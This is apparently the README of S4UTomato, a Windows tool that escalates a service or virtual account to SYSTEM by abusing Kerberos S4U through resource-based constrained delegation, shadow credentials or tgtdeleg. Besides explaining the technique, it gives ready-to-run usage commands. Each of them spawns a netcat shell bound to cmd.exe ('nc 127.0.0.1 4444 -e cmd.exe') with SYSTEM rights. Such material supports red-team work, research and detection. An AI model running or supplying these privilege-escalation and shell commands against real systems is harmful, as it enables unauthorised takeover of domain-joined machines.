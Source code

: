 ## S4UTomato

Escalate Service Account To LocalSystem via Kerberos.

[toc]

## Traditional Potatoes

Friends familiar with the "Potato" series of privilege escalation should know that it can elevate service account privileges to local system privileges. The early exploitation techniques of "Potato" are almost identical: leveraging certain features of COM interfaces, deceiving the NT AUTHORITY\SYSTEM account to connect and authenticate to an attacker-controlled RPC server. Then, through a series of API calls, an intermediary (NTLM Relay) attack is executed during this authentication process, resulting in the generation of an access token for the NT AUTHORITY\SYSTEM account on the local system. Finally, this token is stolen, and the `CreateProcessWithToken()` or `CreateProcessAsUser()` function is used to pass the token and create a new process to obtain SYSTEM privileges.

## How About Kerberos

In any scenario where a machine is joined to a domain, you can leverage the aforementioned techniques for local privilege escalation as long as you can run code under the context of a Windows service account or a Microsoft virtual account, provided that the Active Directory hasn't been hardened to fully defend against such attacks.

In a Windows domain environment, SYSTEM, NT AUTHORITY\NETWORK SERVICE, and Microsoft virtual accounts are used for authentication by system computer accounts that are joined to the domain. Understanding this is crucial because in modern versions of Windows, most Windows services run by default using Microsoft virtual accounts. Notably, IIS and MSSQL use these virtual accounts, and I believe other applications might also employ them. Therefore, we can abuse the S4U extension to obtain the service ticket for the domain administrator account "Administrator" on the local machine. Then, with the help of James Forshaw ([@tiraniddo](https://twitter.com/tiraniddo))'s  [*SCMUACBypass*](https://gist.github.com/tyranid/c24cfd1bd141d14d4925043ee7e03c82), we can use that ticket to create a system service and gain SYSTEM privileges. This achieves the same effect as traditional methods used in the "Potato" family of privilege escalation techniques.

Before this, we need to obtain a TGT (Ticket Granting Ticket) for the local machine account. This is not easy because of the restrictions imposed by service account permissions, preventing us from obtaining the computer's Long-term Key and thus being unable to construct a KRB_AS_REQ request. To accomplish the aforementioned goal, I leveraged three techniques: [*Resource-based Constrained Delegation*](https://shenaniganslabs.io/2019/01/28/Wagging-the-Dog.html), [*Shadow Credentials*](https://posts.specterops.io/shadow-credentials-abusing-key-trust-account-mapping-for-takeover-8ee1a53566ab), and [*Tgtdeleg*](https://twitter.com/gentilkiwi/status/998219775485661184). I built my project based on the  [Rubeus](https://github.com/GhostPack/Rubeus#tgtdeleg) toolset.

## How to Use and Examples

```cmd
C:\Users\whoami\Desktop>S4UTomato.exe --help

S4UTomato 1.0.0-beta
Copyright (c) 2023 whoamianony.top

  -d, --Domain              Domain (FQDN) to authenticate to.
  -s, --Server              Host name of domain controller or LDAP server.
  -m, --ComputerName        The new computer account to create.
  -p, --ComputerPassword    The password of the new computer account to be created.
  -f, --Force               Forcefully update the 'msDS-KeyCredentialLink' attribute of the computer
                            object.
  -c, --Command             Program to run.
  -v, --Verbose             Output verbose debug information.
  --help                    Display this help screen.
  --version                 Display version information.
```

### LEP via Resource-based Constrained Delegation

```cmd
S4UTomato.exe rbcd -m NEWCOMPUTER -p pAssw0rd -c "nc.exe 127.0.0.1 4444 -e cmd.exe"
```

![rbcd](/images/rbcd.gif)

### LEP via Shadow Credentials + S4U2self

```cmd
S4UTomato.exe shadowcred -c "nc 127.0.0.1 4444 -e cmd.exe" -f
```

![shadowcred](/images/shadowcred.gif)

### LEP via Tgtdeleg + S4U2self

```cmd
# First retrieve the TGT through Tgtdeleg
S4UTomato.exe tgtdeleg
# Then run SCMUACBypass to obtain SYSTEM privilege
S4UTomato.exe krbscm -c "nc 127.0.0.1 4444 -e cmd.exe"
```

![tgtdeleg](/images/tgtdeleg.gif)